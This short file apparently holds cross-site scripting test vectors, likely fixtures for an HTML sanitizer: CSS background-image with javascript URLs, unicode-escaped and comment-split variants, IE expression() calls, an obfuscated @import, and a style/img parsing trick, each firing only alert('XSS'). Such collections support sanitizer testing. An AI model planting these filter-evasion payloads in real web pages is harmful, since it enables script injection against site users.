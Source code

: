 

<div style="background-image: url(javascript:alert('XSS'))">
<div style="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<div style="width: expression(alert('XSS'));">
<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>
<img style="xss:expr/*XSS*/ession(alert('XSS'))">

<style><img src="</style><img src="x">
